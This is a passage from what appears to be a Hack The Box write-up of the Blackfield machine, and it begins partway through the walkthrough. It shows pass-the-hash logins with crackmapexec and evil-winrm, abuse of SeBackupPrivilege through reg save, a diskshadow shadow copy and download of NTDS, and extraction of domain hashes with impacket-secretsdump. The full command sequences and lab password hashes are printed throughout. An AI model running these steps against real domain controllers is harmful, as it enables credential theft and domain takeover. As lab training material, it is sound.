┌──(kali㉿kali)-[~/htb/smb_shares/smb_forensics/memory_analysis]
└─$ crackmapexec smb 10.10.10.192 -u svc_backup -H 9658d1d1dcd9250115e2205d9f48400d
SMB         10.10.10.192    445    DC01             [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC01) (domain:BLACKFIELD.local) (signing:True) (SMBv1:False)
SMB         10.10.10.192    445    DC01             [+] BLACKFIELD.local\svc_backup:9658d1d1dcd9250115e2205d9f48400d 
                                                                            
┌──(kali㉿kali)-[~/htb/smb_shares/smb_forensics/memory_analysis]
└─$ crackmapexec winrm 10.10.10.192 -u svc_backup -H 9658d1d1dcd9250115e2205d9f48400d
SMB         10.10.10.192    5985   DC01             [*] Windows 10 / Server 2019 Build 17763 (name:DC01) (domain:BLACKFIELD.local)
HTTP        10.10.10.192    5985   DC01             [*] http://10.10.10.192:5985/wsman
WINRM       10.10.10.192    5985   DC01             [+] BLACKFIELD.local\svc_backup:9658d1d1dcd9250115e2205d9f48400d (Pwn3d!)

┌──(kali㉿kali)-[~/htb/smb_shares/smb_forensics/memory_analysis]
└─$ crackmapexec smb 10.10.10.192 -u Administrator -H 7f1e4ff8c6a8e6b6fcae2d9c0572cd62
SMB         10.10.10.192    445    DC01             [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC01) (domain:BLACKFIELD.local) (signing:True) (SMBv1:False)
SMB         10.10.10.192    445    DC01             [-] BLACKFIELD.local\Administrator:7f1e4ff8c6a8e6b6fcae2d9c0572cd62 STATUS_LOGON_FAILURE 
```

According to the results, I can open a shell with `evil-winrm`
Let's try opening a shell.

```bash
┌──(kali㉿kali)-[~/htb/smb_shares/smb_forensics/memory_analysis]
└─$ evil-winrm -i 10.10.10.192 -u svc_backup -H 9658d1d1dcd9250115e2205d9f48400d
   
Evil-WinRM shell v3.5
  
Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine                 
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion                                   
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\svc_backup\Documents> whoami
blackfield\svc_backup
```


# Shell as `Administrator`

Let's revisit `BloodHound` to see the path from `svc_backup` to `Domain Admins`.



I can exploit `DCSync` to get to the Domain..
Also, let's see what privilege the user `svc_backup` has.

```bash
*Evil-WinRM* PS C:\Users\svc_backup\Documents> whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                    State
============================= ============================== =======
SeMachineAccountPrivilege     Add workstations to domain     Enabled
SeBackupPrivilege             Back up files and directories  Enabled
SeRestorePrivilege            Restore files and directories  Enabled
SeShutdownPrivilege           Shut down the system           Enabled
SeChangeNotifyPrivilege       Bypass traverse checking       Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set Enabled
```

The user `svc_backup` has `SeBackupPrivilege` privilege which is not safe.
Here is the referenced methods to exploit this:
https://sechub.in/view/2775289

```powershell
*Evil-WinRM* PS C:\Users\svc_backup\Documents> mkdir C:\temp

    Directory: C:\


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
d-----       12/13/2024   5:13 PM                temp


*Evil-WinRM* PS C:\Users\svc_backup\Documents> reg save hklm\sam C:\temp\sam.hive
The operation completed successfully.

*Evil-WinRM* PS C:\Users\svc_backup\Documents> reg save hklm\system C:\temp\system.hive
The operation completed successfully.

*Evil-WinRM* PS C:\Users\svc_backup\Documents> cd C:\temp

*Evil-WinRM* PS C:\temp> download sam.hive
Info: Downloading C:\temp\sam.hive to sam.hive

Info: Download successful!

*Evil-WinRM* PS C:\temp> download system.hive
Info: Downloading C:\temp\system.hive to system.hive
Info: Download successful!
```

Done with copy and download `SAM`, `SYSTEM` files.
Let's extract hashes from these files using `impacket-secretsdump`.

```bash
┌──(kali㉿kali)-[~/htb/reg_dump]
└─$ impacket-secretsdump -sam sam.hive -system system.hive LOCAL
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[*] Target system bootKey: 0x73d83e56de8961ca9f243e1a49638393
[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
Administrator:500:aad3b435b51404eeaad3b435b51404ee:67ef902eae0d740df6257f273de75051:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
[-] SAM hashes extraction for user WDAGUtilityAccount failed. The account doesn't have hash information.
[*] Cleaning up... 
```

It successfully extract `Administrator`'s hash : `67ef902eae0d740df6257f273de75051`
Let's test this hash with `crackmapexec`.

```bash
┌──(kali㉿kali)-[~/htb/reg_dump]
└─$ crackmapexec winrm 10.10.10.192 -u Administrator -H 67ef902eae0d740df6257f273de75051
SMB         10.10.10.192    5985   DC01             [*] Windows 10 / Server 2019 Build 17763 (name:DC01) (domain:BLACKFIELD.local)
HTTP        10.10.10.192    5985   DC01             [*] http://10.10.10.192:5985/wsman
WINRM       10.10.10.192    5985   DC01             [-] BLACKFIELD.local\Administrator:67ef902eae0d740df6257f273de75051
                                                                           
┌──(kali㉿kali)-[~/htb/reg_dump]
└─$ crackmapexec winrm 10.10.10.192 -u Administrator -H 67ef902eae0d740df6257f273de75051 --local-auth 
SMB         10.10.10.192    5985   DC01             [*] Windows 10 / Server 2019 Build 17763 (name:DC01) (domain:DC01)
HTTP        10.10.10.192    5985   DC01             [*] http://10.10.10.192:5985/wsman
WINRM       10.10.10.192    5985   DC01             [-] DC01\Administrator:67ef902eae0d740df6257f273de75051
```

It was not working on both local and domain.
Instead, it seems that I have to get `NTDS.dit` file to extract AD's hashes.

Here's the reference :
https://www.hackingarticles.in/windows-privilege-escalation-sebackupprivilege/

```bash
┌──(kali㉿kali)-[~/htb]
└─$ git clone https://github.com/k4sth4/SeBackupPrivilege.git
Cloning into 'SeBackupPrivilege'...
remote: Enumerating objects: 26, done.
remote: Counting objects: 100% (26/26), done.
remote: Compressing objects: 100% (22/22), done.
remote: Total 26 (delta 8), reused 0 (delta 0), pack-reused 0 (from 0)
Receiving objects: 100% (26/26), 12.58 KiB | 1.14 MiB/s, done.
Resolving deltas: 100% (8/8), done.

```

First, let's download exploit repository.

```yaml
┌──(kali㉿kali)-[~/htb/SeBackupPrivilege]
└─$ evil-winrm -i 10.10.10.192 -u svc_backup -H 9658d1d1dcd9250115e2205d9f48400d
                                        
Evil-WinRM shell v3.5
                                        
Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine                 
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion                                   
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\svc_backup\Documents> upload SeBackupPrivilegeUtils.dll
                                        
Info: Uploading /home/kali/htb/SeBackupPrivilege/SeBackupPrivilegeUtils.dll to C:\Users\svc_backup\Documents\SeBackupPrivilegeUtils.dll                 
                                        
Data: 21844 bytes of 21844 bytes copied
                                        
Info: Upload successful!
*Evil-WinRM* PS C:\Users\svc_backup\Documents> upload SeBackupPrivilegeCmdLets.dll
                                        
Info: Uploading /home/kali/htb/SeBackupPrivilege/SeBackupPrivilegeCmdLets.dll to C:\Users\svc_backup\Documents\SeBackupPrivilegeCmdLets.dll             
                                        
Data: 16384 bytes of 16384 bytes copied
                                        
Info: Upload successful!
```

Then, let's prepare a script.

```bash
┌──(kali㉿kali)-[~/htb/SeBackupPrivilege]
└─$ cat script.txt      
set context persistent nowriters
add volume c: alias mydrive
create
expose %mydrive% z:
```

Then, let's upload `dll` files and script.

```powershell
*Evil-WinRM* PS C:\Users\svc_backup\Documents> upload SeBackupPrivilegeUtils.dll
                                        
Info: Uploading /home/kali/htb/SeBackupPrivilege/SeBackupPrivilegeUtils.dll to C:\Users\svc_backup\Documents\SeBackupPrivilegeUtils.dll                 
                                        
Data: 21844 bytes of 21844 bytes copied
                                        
Info: Upload successful!
*Evil-WinRM* PS C:\Users\svc_backup\Documents> upload SeBackupPrivilegeCmdLets.dll
                                        
Info: Uploading /home/kali/htb/SeBackupPrivilege/SeBackupPrivilegeCmdLets.dll to C:\Users\svc_backup\Documents\SeBackupPrivilegeCmdLets.dll             
                                        
Data: 16384 bytes of 16384 bytes copied
                                        
Info: Upload successful!
*Evil-WinRM* PS C:\Users\svc_backup\Documents> ls


    Directory: C:\Users\svc_backup\Documents


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-a----       12/13/2024   5:03 PM          45056 sam.sav
-a----       12/13/2024   5:30 PM          12288 SeBackupPrivilegeCmdLets.dll
-a----       12/13/2024   5:30 PM          16384 SeBackupPrivilegeUtils.dll


*Evil-WinRM* PS C:\Users\svc_backup\Documents> Import-Module .\SeBackupPrivilegeCmdLets.dll
*Evil-WinRM* PS C:\Users\svc_backup\Documents> Import-Module .\SeBackupPrivilegeUtils.dll


*Evil-WinRM* PS C:\temp> diskshadow /s script.txt
Microsoft DiskShadow version 1.0
Copyright (C) 2013 Microsoft Corporation
On computer:  DC01,  12/13/2024 5:45:34 PM

-> set context persistent nowriters
-> add volume c: alias mydrive
-> create
Alias mydrive for shadow ID {6e7ae28a-7faf-48f6-99c1-f01968cc6f22} set as environment variable.
Alias VSS_SHADOW_SET for shadow set ID {7b184232-81fc-4b83-bcb4-db4c3401b81d} set as environment variable.

Querying all shadow copies with the shadow copy set ID {7b184232-81fc-4b83-bcb4-db4c3401b81d}

        * Shadow copy ID = {6e7ae28a-7faf-48f6-99c1-f01968cc6f22}          %mydrive%
                - Shadow copy set: {7b184232-81fc-4b83-bcb4-db4c3401b81d}  %VSS_SHADOW_SET%
                - Original count of shadow copies = 1
                - Original volume name: \\?\Volume{6cd5140b-0000-0000-0000-602200000000}\ [C:\]
                - Creation time: 12/13/2024 5:45:35 PM
                - Shadow copy device name: \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1
                - Originating machine: DC01.BLACKFIELD.local
                - Service machine: DC01.BLACKFIELD.local
                - Not exposed
                - Provider ID: {b5946137-7b9f-4925-af80-51abd60b20d5}
                - Attributes:  No_Auto_Release Persistent No_Writers Differential

Number of shadow copies listed: 1
-> expose %mydrive% z:
-> %mydrive% = {6e7ae28a-7faf-48f6-99c1-f01968cc6f22}
The shadow copy was successfully exposed as z:\.
->
*Evil-WinRM* PS C:\temp> ls Z:\


    Directory: Z:\


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
d-----        5/26/2020   5:38 PM                PerfLogs
d-----         6/3/2020   9:47 AM                profiles
d-r---        3/19/2020  11:08 AM                Program Files
d-----         2/1/2020  11:05 AM                Program Files (x86)
d-----       12/13/2024   5:45 PM                temp
d-r---        2/23/2020   9:16 AM                Users
d-----        9/21/2020   4:29 PM                Windows
-a----        2/28/2020   4:36 PM            447 notes.txt


*Evil-WinRM* PS Z:\Windows> download NTDS

Info: Downloading Z:\Windows\NTDS to NTDS
Info: Download successful!
```

I additionally downloaded `NTDS` file.
Let's try extract hash again with `impacket-secretsdump`.

```bash
┌──(kali㉿kali)-[~/htb/blackfield/registry]
└─$ impacket-secretsdump -ntds ntds.dit -system system.hive LOCAL
Impacket v0.12.0.dev1 - Copyright 2023 Fortra

[*] Target system bootKey: 0x73d83e56de8961ca9f243e1a49638393
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Searching for pekList, be patient
[*] PEK # 0 found and decrypted: 35640a3fd5111b93cc50e3b4e255ff8c
[*] Reading and decrypting hashes from ntds.dit 
Administrator:500:aad3b435b51404eeaad3b435b51404ee:184fb5e5178480be64824d4cd53b99ee:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DC01$:1000:aad3b435b51404eeaad3b435b51404ee:97942ffea817cfd60049d6655dc1932b:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:d3c02561bba6ee4ad6cfd024ec8fda5d:::
audit2020:1103:aad3b435b51404eeaad3b435b51404ee:600a406c2c1f2062eb9bb227bad654aa:::
support:1104:aad3b435b51404eeaad3b435b51404ee:cead107bf11ebc28b3e6e90cde6de212:::
BLACKFIELD.local\BLACKFIELD764430:1105:aad3b435b51404eeaad3b435b51404ee:a658dd0c98e7ac3f46cca81ed6762d1c:::
BLACKFIELD.local\BLACKFIELD538365:1106:aad3b435b51404eeaad3b435b51404ee:a658dd0c98e7ac3f46cca81ed6762d1c:::
<SNIP>
```

Here again I extracted `Administrator`'s hash : `184fb5e5178480be64824d4cd53b99ee`
Let's test this hash.

```bash
┌──(kali㉿kali)-[~/htb]
└─$ crackmapexec smb 10.10.10.192 -u Administrator -H 184fb5e5178480be64824d4cd53b99ee
SMB         10.10.10.192    445    DC01             [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC01) (domain:BLACKFIELD.local) (signing:True) (SMBv1:False)
SMB         10.10.10.192    445    DC01             [+] BLACKFIELD.local\Administrator:184fb5e5178480be64824d4cd53b99ee (Pwn3d!)
                                                                            
┌──(kali㉿kali)-[~/htb]
└─$ crackmapexec winrm 10.10.10.192 -u Administrator -H 184fb5e5178480be64824d4cd53b99ee
SMB         10.10.10.192    5985   DC01             [*] Windows 10 / Server 2019 Build 17763 (name:DC01) (domain:BLACKFIELD.local)
HTTP        10.10.10.192    5985   DC01             [*] http://10.10.10.192:5985/wsman
WINRM       10.10.10.192    5985   DC01             [+] BLACKFIELD.local\Administrator:184fb5e5178480be64824d4cd53b99ee (Pwn3d!)
```

I can spawn a shell with `evil-winrm`.

```bash
┌──(kali㉿kali)-[~/htb]
└─$ evil-winrm -i 10.10.10.192 -u Administrator -H 184fb5e5178480be64824d4cd53b99ee

Evil-WinRM shell v3.5

Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine                 

Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion                                   

Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\Administrator\Documents> whoami
blackfield\administrator
```
